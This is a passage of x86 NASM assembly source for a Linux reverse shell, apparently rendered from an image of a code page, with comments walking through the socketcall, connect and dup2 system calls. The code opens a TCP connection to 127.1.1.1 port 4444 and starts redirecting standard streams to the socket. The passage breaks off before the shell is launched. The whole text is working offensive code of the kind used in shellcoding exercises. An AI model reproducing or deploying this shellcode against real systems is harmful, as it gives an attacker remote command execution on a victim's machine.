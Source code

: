 ```nasm
; reverse_shell.nasm
;  - Connect to a host, provide shell.

global _start

section .text
_start:
        ; int socketcall(int call, unsigned long *args)
        ; int socket(int domain, int type, int protocol)
        ; eax = 0x66 (socketcall)
        ; ebx = 0x1 (socket)
        ; ecx = esp
        ; esp => |0x00000002|0x00000001|0x00000000|
        ;          AF_INET  SOCK_STREAM    null

	xor eax, eax
	push eax		; IPPROTO_IP
	inc eax
	push eax		; SOCK_STREAM
	mov ebx, eax		; socket, 1
	inc eax
	mov edi, eax
	push eax		; AF_INET
	mov ecx, esp		; args
	mov al, 0x66		; socketcall, 102
	int 0x80		; execute
	mov esi, eax		; save sockfd


	; int socketcall(int call, unsigned long *args)
        ; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
        ; struct sockaddr_in {short int sin_family, unsigned short int sin_port, struct in_addr sin_addr, 0}
        ; eax = 0x66 (socketcall)
        ; ebx = 0x3 (connect)
        ; ecx = esp
        ; esp => |----------|----------|0x00000018|0x0002|0x115C|0x7f010101|
        ;           sockfd      addr      addrlen  AF_INET  port   ipaddr

	xor eax, eax
	push 0x0101017f		; ipaddr, 127.1.1.1
	push word 0x5c11	; port, 4444
	push word di		; AF_INET
	mov ecx, esp
	mov al, 0x10
	push eax		; addrlen, 16
	push ecx		; addr
	push esi		; sockfd
	mov al, 0x66		; socketcall, 102
	inc edi
	mov ebx, edi		; connect, 3
	mov ecx, esp		; args
	int 0x80		; execute


        ; int dup2(int oldfd, int newfd)
        ; eax = 0x3f (dup2)
        ; ebx = connfd
        ; ecx = 2, 1, 0

	mov ebx, esi		; connfd
	xor ecx, ecx
	mov cl, 0x2		; stderr
```